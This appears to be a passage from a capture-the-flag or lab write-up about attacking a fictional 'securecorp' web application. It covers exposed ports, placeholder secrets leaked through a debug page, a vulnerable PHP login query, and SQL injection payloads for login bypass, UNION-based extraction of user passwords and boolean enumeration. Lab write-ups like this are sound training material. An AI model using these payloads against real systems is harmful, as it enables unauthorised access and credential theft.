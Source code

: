 **Key Findings**:
- Web application on port 8080
- MySQL exposed on port 3306
- Elasticsearch exposed on port 9200 (info disclosure)
- Debug page accessible
- File upload functionality exists

---

## 🔓 Phase 2: Web Application Exploitation (25 points)

### 2.1 Information Gathering via Debug Page

**Target**: `http://192.168.1.10:8080/debug.php`

**Critical Information Disclosed**:
```
Database Credentials:
- Host: db
- Username: webapp  
- Password: w3bp@ss123
- Database: securecorp

Application Secrets:
- SECRET_KEY: super_secret_key_123
- API_TOKEN: sk-1234567890abcdef
- AWS_ACCESS_KEY: AKIAIOSFODNN7EXAMPLE
- AWS_SECRET_KEY: wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY

Upload Directory: /var/www/html/uploads/
```

### 2.2 SQL Injection - Authentication Bypass

**Target**: Login form at `http://192.168.1.10:8080/`

**Vulnerable Code Analysis**:
```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

**Exploitation**:
```sql
Username: admin' OR '1'='1' -- 
Password: anything
```

**Alternative Payloads**:
```sql
# Union-based injection for data extraction
Username: admin' UNION SELECT 1,username,password,email,role,5,6,7 FROM users-- 
Password: anything

# Boolean-based enumeration
Username: admin' AND (SELECT COUNT(*) FROM users)>0-- 
Password: anything
```
